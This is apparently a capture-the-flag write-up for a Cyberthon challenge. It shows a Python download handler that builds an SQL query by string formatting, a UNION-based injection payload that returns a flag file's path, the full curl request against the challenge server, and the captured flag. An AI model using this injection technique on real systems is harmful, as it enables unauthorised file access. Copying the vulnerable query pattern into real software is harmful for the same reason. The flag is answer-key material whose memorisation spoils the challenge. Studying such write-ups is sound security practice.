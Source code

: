 ```yaml
---
created: 2024-06-11T01:33
updated: 2024-06-11T01:35
---
```


> APOCALYPSE has recently started a new business venture, a website for people to download cute images of cats! While
> that seems like a relatively normal kind of business, our intel says that it might be more than what it appears to be.
> So we've got to keep a close eye on it. Currently, their service has only cat pictures.
>
> However rumors are going around that they're venturing into dogs very soon. Could u confirm the rumour for me?

Ignoring much of the code, we can find the important stuff here

```python
assert os.path.exists("/app/images/dogs/flag.jpg")


async def download(request: Request):
    form = {**(await request.form())}
    query = {"is_public": "yes"}
    if form.get("species") is None: return "Fail"
    form["species"] = hashlib.md5(form["species"].encode()).hexdigest()
    query.update(form)
    result = await database.fetch_one(
        query="SELECT filename FROM cats WHERE is_public='{is_public}' AND species='{species}'".format(**query)
    )
    if not result or ".." in result["filename"]: return "Fail"
    return FileResponse(os.path.join("/app", "images", "cats", result["filename"]))
```

We have to send the flag from `/app/images/dogs/flag.jpg`, so the SQL query just have to return that value.

```sql
SELECT filename
FROM cats
WHERE is_public = '{is_public}'
  AND species = '{species}'
```

With some simple SQL injection

```python
species="tabby"
is_public="true' AND 1=2 UNION SELECT '/app/images/dogs/flag.jpg' --"
```

It becomes

```sql
SELECT filename
FROM cats
WHERE is_public = 'true'
  AND 1 = 2
UNION
SELECT '/app/images/dogs/flag.jpg' --' AND species='[some hash]'
```

Thus we form the request

```bash
## Only Cats
curl -X "POST" "http://chals.cyberthon22f.ctf.sg:40501/download/" \
     -H 'Content-Type: application/x-www-form-urlencoded; charset=utf-8' \
     --data-urlencode "species=tabby" \
     --data-urlencode "is_public=true' AND 1=2 UNION SELECT '/app/images/dogs/flag.jpg' --"
```

![img.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1718084106/2024/06/82e66c049de002219a3ee9a267cfa0a6.png)

And heres our flag

```
Cyberthon{why_15_1t_4Lw4y5_d0g}
```
